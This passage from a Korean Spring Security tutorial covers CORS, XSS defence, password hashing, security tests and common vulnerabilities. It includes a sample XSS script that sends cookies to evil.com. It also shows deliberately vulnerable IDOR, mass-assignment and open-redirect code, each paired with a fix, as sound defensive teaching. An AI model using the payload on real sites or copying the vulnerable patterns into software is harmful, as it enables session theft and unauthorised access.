W3C CORS 스펙이 이 조합을 명시적으로 금지한다. 이유: `*`를 허용하면 모든 사이트가 자격증명(쿠키, Authorization 헤더)을 포함한 요청을 보낼 수 있게 된다. 이는 사실상 CSRF 공격을 CORS 레벨에서 허용하는 것과 같다. 브라우저 스펙이 이를 거부하며, Spring Security도 설정 시점에 `IllegalArgumentException`을 던진다.

```java
@Bean
public CorsConfigurationSource corsConfigurationSource() {
    CorsConfiguration config = new CorsConfiguration();

    // 와일드카드 대신 허용할 출처 패턴을 명시
    config.setAllowedOriginPatterns(List.of(
        "http://localhost:[*]",         // 로컬 개발 모든 포트
        "https://*.myapp.com"           // 운영 서브도메인 전체
    ));
    config.setAllowedMethods(List.of("GET", "POST", "PUT", "DELETE", "PATCH", "OPTIONS"));
    config.setAllowedHeaders(List.of("Authorization", "Content-Type", "X-Request-ID"));
    config.setExposedHeaders(List.of("X-Total-Count")); // 브라우저가 읽을 수 있는 응답 헤더
    config.setAllowCredentials(true);
    config.setMaxAge(3600L);            // Preflight 캐시 1시간

    UrlBasedCorsConfigurationSource source = new UrlBasedCorsConfigurationSource();
    source.registerCorsConfiguration("/**", config);
    return source;
}
```

**CORS 설정을 WebMvcConfigurer와 Security에 중복 설정하면 안 되는 이유:** `ExceptionTranslationFilter`가 403을 반환할 때 CORS 헤더가 붙지 않으면 브라우저가 CORS 오류로 인식한다. Security의 `cors()` 설정을 통해야 Security 필터 체인 내에서도 CORS 헤더가 올바르게 추가된다.

---

## 10. XSS 방어 — Content-Security-Policy와 HttpOnly 쿠키

### 10.1 XSS(Cross-Site Scripting) 공격 원리

공격자가 게시판, 댓글 등에 `<script>document.location='https://evil.com/steal?cookie='+document.cookie</script>`를 삽입한다. 다른 사용자가 이 페이지를 방문하면 스크립트가 실행되어 쿠키, 로컬스토리지 등이 탈취된다.

### 10.2 HttpOnly 쿠키 — JavaScript 접근 차단

```java
@PostMapping("/auth/login")
public ResponseEntity<?> login(@RequestBody LoginRequest request,
                                 HttpServletResponse response) {
    TokenPair tokens = authService.login(request);

    // Refresh Token은 HttpOnly 쿠키에 저장 → JavaScript로 접근 불가
    // XSS로 탈취 불가
    ResponseCookie refreshCookie = ResponseCookie.from("refresh_token", tokens.getRefreshToken())
        .httpOnly(true)      // JavaScript document.cookie 접근 차단
        .secure(true)        // HTTPS에서만 전송
        .sameSite("Strict")  // CSRF 방어 — 같은 사이트 요청에만 쿠키 포함
        .path("/api/auth")   // 이 경로에만 쿠키 전송 — 불필요한 전송 방지
        .maxAge(Duration.ofDays(7))
        .build();

    response.addHeader(HttpHeaders.SET_COOKIE, refreshCookie.toString());

    // Access Token은 응답 바디로 — 클라이언트가 메모리에서 관리
    // 로컬스토리지/세션스토리지 저장은 XSS 위험 → 메모리 변수에 보관 권장
    return ResponseEntity.ok(new AccessTokenResponse(tokens.getAccessToken()));
}
```

### 10.3 Content-Security-Policy 헤더

CSP는 브라우저가 어디서 온 리소스를 실행할 수 있는지 지정한다. `script-src 'self'`이면 같은 도메인의 스크립트만 실행 허용. 외부에서 삽입된 인라인 스크립트나 외부 도메인 스크립트는 실행되지 않는다.

```java
@Bean
public SecurityFilterChain webChain(HttpSecurity http) throws Exception {
    http.headers(headers -> headers
        .contentSecurityPolicy(csp -> csp
            .policyDirectives(
                "default-src 'self'; " +
                "script-src 'self' https://cdn.myapp.com; " +
                "style-src 'self' 'unsafe-inline'; " +  // CSS 인라인 허용 (필요 시)
                "img-src 'self' data: https:; " +
                "connect-src 'self' https://api.myapp.com; " +
                "frame-ancestors 'none'; " +             // Clickjacking 방어
                "base-uri 'self'; " +
                "form-action 'self'"
            )
        )
        .frameOptions(frame -> frame.deny())             // X-Frame-Options: DENY
        .xssProtection(xss -> xss.enable())              // X-XSS-Protection: 1; mode=block
        .httpStrictTransportSecurity(hsts -> hsts        // HSTS
            .includeSubDomains(true)
            .maxAgeInSeconds(31536000)
        )
    );
    return http.build();
}
```

**출력 인코딩:** CSP와 HttpOnly 쿠키만으로는 부족하다. 사용자 입력을 화면에 출력할 때 HTML 엔티티로 인코딩해야 한다. Thymeleaf는 기본적으로 `th:text`에서 자동 이스케이프 처리한다. `th:utext`는 HTML을 그대로 출력하므로 절대 사용자 입력에 사용 금지.

---

## 11. 비밀번호 저장 — DelegatingPasswordEncoder와 Argon2id

### 11.1 DelegatingPasswordEncoder — 무중단 알고리즘 마이그레이션

레거시 시스템에는 MD5, SHA-1, BCrypt로 저장된 비밀번호가 혼재할 수 있다. 한 번에 모든 비밀번호를 BCrypt로 변환하려면 사용자가 모두 비밀번호를 재입력해야 한다. `DelegatingPasswordEncoder`는 기존 비밀번호를 그대로 사용하면서 점진적으로 새 알고리즘으로 마이그레이션한다.

```java
@Bean
public PasswordEncoder passwordEncoder() {
    // 기본 인코더: bcrypt (새로 저장될 비밀번호에 사용)
    Map<String, PasswordEncoder> encoders = new HashMap<>();
    encoders.put("bcrypt", new BCryptPasswordEncoder(12));
    encoders.put("argon2", new Argon2PasswordEncoder(16, 32, 1, 65536, 3));
    encoders.put("noop", NoOpPasswordEncoder.getInstance()); // 평문 (개발 테스트 전용)
    encoders.put("sha256", new StandardPasswordEncoder()); // 구버전 레거시

    // 저장 형식: {bcrypt}$2a$12$...
    // 앞의 접두사로 어떤 인코더로 검증할지 결정
    return new DelegatingPasswordEncoder("argon2", encoders);
}

// DB에 저장되는 형태:
// {bcrypt}$2a$12$N9qo8uLOickgx2ZMRZoMyeIjZAgcfl7p92ldGxad68LJZdL17lhWy
// {argon2}$argon2id$v=19$m=65536,t=3,p=1$...
// → 접두사를 보고 어떤 알고리즘으로 검증할지 자동 선택

@Service
@RequiredArgsConstructor
public class MemberService {

    private final PasswordEncoder passwordEncoder;
    private final MemberRepository memberRepository;

    public void register(RegisterRequest request) {
        // {argon2}$argon2id$... 형태로 저장
        String encoded = passwordEncoder.encode(request.getPassword());
        memberRepository.save(Member.of(request.getEmail(), encoded));
    }

    // 로그인 시 — 저장된 접두사 보고 자동으로 맞는 인코더로 검증
    // 레거시 {bcrypt} 비밀번호도 정상 로그인 가능
    // upgradeEncoding 설정 시 로그인 성공 후 최신 알고리즘으로 자동 재저장
}
```

### 11.2 BCrypt cost factor 튜닝

BCrypt의 strength(cost factor)는 2^strength번의 반복 연산을 수행한다. strength가 1 증가하면 연산 시간이 2배가 된다.

```java
// 서버 성능에 맞는 strength 찾기
public static int findOptimalStrength(long targetMillis) {
    BCryptPasswordEncoder encoder;
    int strength = 4;

    while (strength <= 31) {
        encoder = new BCryptPasswordEncoder(strength);
        long start = System.currentTimeMillis();
        encoder.encode("benchmark_password");
        long elapsed = System.currentTimeMillis() - start;

        if (elapsed >= targetMillis) {
            return strength;
        }
        strength++;
    }
    return 12; // 기본값
}
// 권장: 서버에서 약 100~300ms 걸리는 strength 선택
// 너무 짧으면 brute force 위험, 너무 길면 로그인 API 타임아웃 위험
```

**Argon2id를 BCrypt보다 권장하는 이유:** BCrypt는 CPU 기반 연산이라 GPU로 병렬화해 공격 속도를 높일 수 있다. Argon2id는 메모리-하드(memory-hard) 알고리즘으로 대용량 메모리를 요구해 GPU 병렬화 이점을 크게 제한한다. OWASP는 현재 Argon2id를 1순위 권장 알고리즘으로 지정한다.

```java
// Argon2id 파라미터 (OWASP 권장)
// saltLength: 16바이트, hashLength: 32바이트
// parallelism: 1, memory: 65536KB(64MB), iterations: 3
new Argon2PasswordEncoder(16, 32, 1, 65536, 3);
```

---

## 12. 보안 테스트 — @WithMockUser와 JWT 테스트 토큰

### 12.1 @WithMockUser — 인증 컨텍스트를 가진 테스트

```java
@SpringBootTest
@AutoConfigureMockMvc
class OrderControllerTest {

    @Autowired
    private MockMvc mockMvc;

    // SecurityContext에 ROLE_USER를 가진 가상 사용자 세팅
    // 실제 DB 조회 없이 인증된 상태 시뮬레이션
    @Test
    @WithMockUser(username = "test@test.com", roles = {"USER"})
    void 일반_사용자는_자신의_주문을_조회할_수_있다() throws Exception {
        mockMvc.perform(get("/api/orders/1"))
            .andExpect(status().isOk());
    }

    @Test
    @WithMockUser(roles = {"ADMIN"})
    void 관리자는_모든_주문을_삭제할_수_있다() throws Exception {
        mockMvc.perform(delete("/api/orders/1"))
            .andExpect(status().isNoContent());
    }

    @Test
    void 미인증_사용자는_401을_받는다() throws Exception {
        // @WithMockUser 없으면 SecurityContext 비어있음
        mockMvc.perform(get("/api/orders/1"))
            .andExpect(status().isUnauthorized());
    }

    // 커스텀 UserDetails가 필요한 경우
    @Test
    @WithUserDetails(value = "user@test.com", userDetailsServiceBeanName = "customUserDetailsService")
    void 커스텀_UserDetails로_테스트() throws Exception {
        mockMvc.perform(get("/api/my-info"))
            .andExpect(status().isOk())
            .andExpect(jsonPath("$.email").value("user@test.com"));
    }
}
```

### 12.2 SecurityMockMvcRequestPostProcessors — 세밀한 컨텍스트 제어

```java
import static org.springframework.security.test.web.servlet.request.SecurityMockMvcRequestPostProcessors.*;

@Test
void JWT_리소스_서버_테스트() throws Exception {
    mockMvc.perform(get("/api/orders")
            .with(jwt()
                .jwt(token -> token
                    .subject("user123")
                    .claim("scope", "read:orders")
                    .claim("roles", List.of("ROLE_USER"))
                    .expiresAt(Instant.now().plus(1, ChronoUnit.HOURS))
                )
            ))
        .andExpect(status().isOk());
}

@Test
void CSRF_토큰_포함_폼_요청_테스트() throws Exception {
    mockMvc.perform(post("/web/orders")
            .param("productId", "1")
            .with(csrf())                        // CSRF 토큰 자동 추가
            .with(user("admin").roles("ADMIN"))  // 인증 정보
        )
        .andExpect(status().isCreated());
}

@Test
void OpaqueToken_테스트() throws Exception {
    mockMvc.perform(get("/api/profile")
            .with(opaqueToken()
                .attributes(attrs -> attrs
                    .put("sub", "user123")
                    .put("scope", "profile")
                )
            ))
        .andExpect(status().isOk());
}
```

### 12.3 커스텀 @WithMockUser 어노테이션 만들기

```java
// 커스텀 SecurityContext 팩토리
public class WithCustomUserSecurityContextFactory
        implements WithSecurityContextFactory<WithCustomUser> {

    @Override
    public SecurityContext createSecurityContext(WithCustomUser annotation) {
        SecurityContext context = SecurityContextHolder.createEmptyContext();

        CustomUserDetails principal = new CustomUserDetails(
            annotation.id(),
            annotation.email(),
            "{noop}password",
            List.of(new SimpleGrantedAuthority("ROLE_" + annotation.role()))
        );

        UsernamePasswordAuthenticationToken authentication =
            new UsernamePasswordAuthenticationToken(
                principal,
                null,
                principal.getAuthorities()
            );

        context.setAuthentication(authentication);
        return context;
    }
}

// 커스텀 어노테이션 정의
@Retention(RetentionPolicy.RUNTIME)
@WithSecurityContext(factory = WithCustomUserSecurityContextFactory.class)
public @interface WithCustomUser {
    long id() default 1L;
    String email() default "test@test.com";
    String role() default "USER";
}

// 사용
@Test
@WithCustomUser(id = 42L, email = "alice@test.com", role = "USER")
void 사용자_ID_기반_주문_조회() throws Exception {
    mockMvc.perform(get("/api/members/42/orders"))
        .andExpect(status().isOk());
}
```

---

## 13. 일반적인 보안 취약점 방어

### 13.1 IDOR (Insecure Direct Object Reference)

공격자가 `/api/orders/1`을 조회하다가 `/api/orders/2`로 바꿔 다른 사용자 주문을 조회하는 공격이다. URL 파라미터나 바디의 ID를 그대로 DB 조회에 쓰면 발생한다.

```java
// 취약한 코드
@GetMapping("/api/orders/{orderId}")
public Order getOrder(@PathVariable Long orderId) {
    return orderRepository.findById(orderId).orElseThrow(); // 누구나 조회 가능
}

// 방어 — @PostAuthorize 또는 소유자 검증 포함 쿼리
@GetMapping("/api/orders/{orderId}")
@PostAuthorize("returnObject.memberId == authentication.principal.id or hasRole('ADMIN')")
public Order getOrder(@PathVariable Long orderId) {
    return orderRepository.findById(orderId).orElseThrow();
}

// 또는 소유자 검증을 포함한 쿼리로 방어
@GetMapping("/api/orders/{orderId}")
public Order getOrder(@PathVariable Long orderId,
                       @AuthenticationPrincipal CustomUserDetails user) {
    // 쿼리 수준에서 memberId 조건 추가 → DB에서 권한 없는 데이터는 아예 반환되지 않음
    return orderRepository.findByIdAndMemberId(orderId, user.getId())
        .orElseThrow(() -> new AccessDeniedException("해당 주문에 접근 권한이 없습니다"));
}
```

### 13.2 Mass Assignment — 허용되지 않은 필드 바인딩

클라이언트가 보내는 JSON에 `role`, `isAdmin`, `balance` 같은 민감한 필드가 포함돼 있을 때, 엔티티에 그대로 바인딩하면 권한 상승 공격이 가능하다.

```java
// 취약한 코드 — 요청 바디를 엔티티에 직접 바인딩
@PostMapping("/api/members")
public Member createMember(@RequestBody Member member) {
    // member.role = "ADMIN"으로 보내면 관리자 계정 생성 가능
    return memberRepository.save(member);
}

// 방어 — DTO로 허용 필드만 명시적으로 받기
@PostMapping("/api/members")
public Member createMember(@RequestBody @Valid MemberCreateRequest request) {
    // MemberCreateRequest에는 email, password, nickname만 있음
    // role, isAdmin 필드 없음 → 클라이언트가 보내도 무시됨
    Member member = Member.of(
        request.getEmail(),
        passwordEncoder.encode(request.getPassword()),
        request.getNickname(),
        MemberRole.USER  // 역할은 서버에서 고정 설정
    );
    return memberRepository.save(member);
}

public record MemberCreateRequest(
    @Email String email,
    @NotBlank @Size(min = 8) String password,
    @NotBlank @Size(max = 20) String nickname
    // role 필드 없음
) {}
```

### 13.3 Open Redirect — 검증되지 않은 URL 리다이렉트

```java
// 취약한 코드 — 공격자가 ?redirect=https://evil.com/phishing으로 유도 가능
@GetMapping("/login")
public String login(@RequestParam(required = false) String redirect,
                     HttpServletResponse response) throws IOException {
    // 로그인 후 redirect 파라미터 URL로 이동 → 피싱 사이트로 리다이렉트 가능
    response.sendRedirect(redirect != null ? redirect : "/dashboard");
    return null;
}

// 방어 — 허용된 도메인만 리다이렉트 허용
@GetMapping("/login")
public String login(@RequestParam(required = false) String redirect,
                     HttpServletResponse response) throws IOException {
    String safeRedirect = validateRedirect(redirect);
    response.sendRedirect(safeRedirect);
    return null;
}

private String validateRedirect(String redirect) {
    if (redirect == null || redirect.isBlank()) {
        return "/dashboard";
    }

    // 상대 경로만 허용 — 절대 URL 거부
    if (redirect.startsWith("/") && !redirect.startsWith("//")) {
        return redirect;
    }

    // 허용된 도메인 화이트리스트
    List<String> allowedHosts = List.of("myapp.com", "admin.myapp.com");
    try {
        URI uri = new URI(redirect);
        if (allowedHosts.contains(uri.getHost())) {
            return redirect;
        }
    } catch (URISyntaxException e) {
        // 파싱 실패 = 잘못된 URL
    }

    return "/dashboard"; // 기본값으로 폴백
}
```

---

## 14. 극한 시나리오

### 14.1 시나리오: 멀티 테넌트 시스템에서 테넌트 간 데이터 격리

SaaS 서비스에서 회사 A의 사용자가 회사 B의 데이터에 접근하면 안 된다. JWT에 `tenantId`를 클레임으로 담고, 모든 쿼리에 `tenantId` 조건을 강제한다.

```java
// JWT에서 tenantId 추출
@Component
public class TenantContextFilter extends OncePerRequestFilter {

    @Override
    protected void doFilterInternal(HttpServletRequest request,
                                     HttpServletResponse response,
                                     FilterChain filterChain) throws ServletException, IOException {
        Authentication auth = SecurityContextHolder.getContext().getAuthentication();
        if (auth instanceof JwtAuthenticationToken jwtToken) {
            String tenantId = jwtToken.getToken().getClaimAsString("tenantId");
            TenantContext.setCurrentTenant(tenantId); // ThreadLocal에 저장
        }
        try {
            filterChain.doFilter(request, response);
        } finally {
            TenantContext.clear(); // 요청 완료 후 반드시 정리
        }
    }
}

// JPA에서 tenantId를 자동으로 필터링 (Hibernate Multi-tenancy)
@Entity
@FilterDef(name = "tenantFilter",
    parameters = @ParamDef(name = "tenantId", type = String.class))
@Filter(name = "tenantFilter", condition = "tenant_id = :tenantId")
public class Order {
    @Column(name = "tenant_id", nullable = false)
    private String tenantId;
    // ...
}
```

### 14.2 시나리오: Access Token 탈취 대응 — 짧은 만료 + 토큰 바인딩

극한 보안이 필요한 금융 서비스에서 Access Token이 탈취됐을 때의 피해를 최소화한다.

```java
// 클라이언트 IP와 User-Agent를 토큰에 바인딩
// 다른 환경에서 사용 시 검증 실패
@Service
public class BoundTokenService {

    public String issueToken(String userId, HttpServletRequest request) {
        String clientFingerprint = generateFingerprint(request);

        return Jwts.builder()
            .subject(userId)
            .claim("fingerprint", hashFingerprint(clientFingerprint))
            .expiration(new Date(System.currentTimeMillis() + 5 * 60 * 1000)) // 5분
            .signWith(privateKey)
            .compact();
    }

    public void validateToken(String token, HttpServletRequest request) {
        Claims claims = parseToken(token);
        String storedHash = claims.get("fingerprint", String.class);
        String currentFingerprint = generateFingerprint(request);

        if (!hashFingerprint(currentFingerprint).equals(storedHash)) {
            throw new TokenBindingException("토큰 환경 불일치 — 탈취 의심");
        }
    }

    private String generateFingerprint(HttpServletRequest request) {
        // IP + User-Agent 조합 (완벽하지 않지만 기본 방어)
        return request.getRemoteAddr() + "|" + request.getHeader("User-Agent");
    }
}
```

### 14.3 시나리오: 다중 SecurityFilterChain으로 독립 보안 정책 적용

```java
@Configuration
@EnableWebSecurity
public class MultiChainSecurityConfig {

    // 관리자 API: IP 화이트리스트 + 기본 인증
    @Bean
    @Order(1)
    public SecurityFilterChain adminChain(HttpSecurity http) throws Exception {
        http
            .securityMatcher("/admin/**")
            .authorizeHttpRequests(auth -> auth
                .requestMatchers("/admin/**").hasRole("SUPER_ADMIN")
                .anyRequest().denyAll()
            )
            .addFilterBefore(new IpWhitelistFilter(List.of("10.0.0.0/8")),
                ChannelProcessingFilter.class)
            .httpBasic(Customizer.withDefaults())
            .sessionManagement(s -> s.sessionCreationPolicy(SessionCreationPolicy.STATELESS));
        return http.build();
    }

    // OAuth2 Resource Server API
    @Bean
    @Order(2)
    public SecurityFilterChain resourceServerChain(HttpSecurity http) throws Exception {
        http
            .securityMatcher("/api/**")
            .oauth2ResourceServer(oauth2 -> oauth2
                .jwt(jwt -> jwt.jwkSetUri("https://auth.myapp.com/.well-known/jwks.json"))
            )
            .authorizeHttpRequests(auth -> auth
                .requestMatchers("/api/public/**").permitAll()
                .requestMatchers("/api/admin/**").hasAuthority("SCOPE_admin")
                .anyRequest().authenticated()
            )
            .sessionManagement(s -> s.sessionCreationPolicy(SessionCreationPolicy.STATELESS));
        return http.build();
    }

    // 웹 앱: 폼 로그인 + 세션
    @Bean
    @Order(3)
    public SecurityFilterChain webChain(HttpSecurity http) throws Exception {
        http
            .securityMatcher("/web/**", "/login", "/logout")
            .formLogin(form -> form
                .loginPage("/login")
                .defaultSuccessUrl("/web/dashboard", true)
                .failureUrl("/login?error")
            )
            .logout(logout -> logout
                .logoutUrl("/logout")
                .invalidateHttpSession(true)
                .deleteCookies("JSESSIONID")
                .logoutSuccessUrl("/login?logout")
            )
            .sessionManagement(session -> session
                .sessionCreationPolicy(SessionCreationPolicy.IF_REQUIRED)
                .maximumSessions(1)
                .maxSessionsPreventsLogin(false)
            )
            .authorizeHttpRequests(auth -> auth
                .requestMatchers("/login", "/css/**", "/js/**").permitAll()
                .anyRequest().authenticated()
            );
        return http.build();
    }
}
```

---

## 15. 인증 흐름 종합 요약



---

## 16. 실수 모음 — 실무에서 자주 발생하는 보안 버그

| 실수 | 증상 | 올바른 해결 |
|------|------|-----------|
| `anyRequest()` 앞에 특정 경로 선언 | 모든 경로가 `anyRequest()` 규칙 적용 | 구체적 경로를 앞에, `anyRequest()`를 마지막에 |
| JWT 만료를 필터에서 안 잡음 | `ExpiredJwtException` → 500 반환 | `sendError(401)` 또는 체인 계속 진행 |
| Refresh Token을 LocalStorage에 저장 | XSS로 탈취 가능 | HttpOnly + Secure 쿠키에 저장 |
| 메서드 내부 호출에 `@PreAuthorize` | 권한 체크 우회 | 별도 서비스 빈으로 분리 |
| CORS를 WebMvc + Security 양쪽 설정 | CORS 헤더 중복 또는 Security 예외 시 헤더 없음 | Security `cors()` 설정으로 통일 |
| `allowedOrigins("*")` + `allowCredentials(true)` | `IllegalArgumentException` | `allowedOriginPatterns()` 사용 |
| IDOR 방어 없는 리소스 조회 | 타 사용자 데이터 접근 | `findByIdAndMemberId()` 또는 `@PostAuthorize` |
| `th:utext`로 사용자 입력 출력 | XSS 취약 | `th:text` 사용 (자동 이스케이프) |
| BCrypt `equals()`로 비교 | 항상 false | `passwordEncoder.matches()` 사용 |
| `DaoAuthenticationProvider.hideUserNotFoundExceptions` false | 계정 존재 여부 노출 | 기본값(true) 유지 |

---

## 17. 면접 포인트 5개 — 깊은 WHY 답변

### Q1. OAuth2 Authorization Code Flow에서 state 파라미터의 역할은 무엇이며, 왜 CSRF를 막는가?
> 클라이언트가 인가 요청 시 생성한 무작위 값을 세션에 저장하고 Authorization Server에 보낸다. AS가 콜백 URL로 같은 값을 돌려주면 클라이언트가 세션 값과 비교한다. 공격자가 피해자 브라우저에서 콜백 URL을 강제로 호출해도 세션의 state와 공격자가 제어하는 state가 일치하지 않아 거부된다. 세션-파라미터 바인딩으로 요청의 연속성을 증명하는 메커니즘이다.

### Q2. JWT RS256과 HS256의 차이를 설명하고, 마이크로서비스에서 RS256을 써야 하는 이유는?
> HS256은 같은 비밀키로 서명과 검증을 수행한다. 여러 Resource Server가 검증하려면 모두 비밀키를 알아야 하므로, 비밀키 유출 경로가 서버 수만큼 늘어난다. 유출된 비밀키로 임의의 JWT 위조가 가능하다. RS256은 개인키로 서명, 공개키로 검증을 분리한다. 개인키는 Authorization Server 한 곳에만 존재하고, Resource Server는 공개키(JWK Set)만 있으면 독립적으로 검증할 수 있다. 공개키가 유출돼도 서명 위조는 불가하다. Authorization Server 없이도 각 서비스가 오프라인으로 검증할 수 있어 분산 시스템에 적합하다.

### Q3. Refresh Token Rotation에서 Token Family를 사용하는 이유는?
> 단순 Rotation(사용 후 무효화)만으로는 공격자가 먼저 토큰을 사용하면 정상 사용자가 그 다음 요청에서 실패한다. 정상 사용자가 재로그인하는 동안 공격자는 새로 발급된 토큰을 계속 사용한다. Token Family는 최초 로그인부터 이어진 토큰 계보를 추적한다. 이미 회전된 이전 Refresh Token으로 갱신 요청이 오면 토큰 탈취로 판단하고 Family 전체를 무효화한다. 공격자와 정상 사용자 모두 재로그인이 필요해지므로 공격자가 장기간 접근하는 것을 막는다.

### Q4. @PreAuthorize가 같은 클래스 내부 호출에서 동작하지 않는 이유와 해결책은?
> `@EnableMethodSecurity`는 AOP 프록시를 통해 `@PreAuthorize`를 처리한다. Spring이 서비스 빈을 직접 리턴하지 않고, 어노테이션이 붙은 메서드 호출을 가로채는 프록시 객체를 리턴한다. 외부에서 `orderService.deleteOrder(id)`를 호출하면 프록시 → 권한 체크 → 실제 메서드 순으로 실행된다. 하지만 `this.deleteOrder(id)`처럼 같은 클래스 내에서 호출하면 프록시를 거치지 않고 실제 객체 메서드를 직접 호출한다. 해결책은 권한 체크가 필요한 메서드를 별도 서비스 빈으로 분리하거나, `@Scope(proxyMode = ScopedProxyMode.TARGET_CLASS)`를 써서 자기 자신을 빈으로 주입받아 프록시를 통해 호출하는 것이다.

### Q5. CORS preflight 캐시의 의미와, allowedOrigins("*")와 allowCredentials(true)를 함께 쓸 수 없는 이유는?

> `Access-Control-Max-Age`는 브라우저가 preflight `OPTIONS` 요청 결과를 캐시하는 시간(초)이다. 캐시가 없으면 `Content-Type: application/json`을 쓰는 모든 POST 요청마다 실제 요청 전에 `OPTIONS` 요청이 선행되어 네트워크 왕복 횟수가 2배가 된다. W3C CORS 스펙이 와일드카드 출처(`*`)와 자격증명(`allowCredentials: true`)의 조합을 명시적으로 금지하는 이유는, 모든 출처에서 쿠키·Authorization 헤더를 포함한 요청을 허용하면 임의의 사이트가 인증된 API를 호출할 수 있어 CSRF 방어가 사실상 무력화되기 때문이다. 특정 출처 목록이나 패턴을 명시해야 한다. Spring은 `allowedOriginPatterns()`로 이를 지원하며 설정 시점에 유효성을 검사한다.
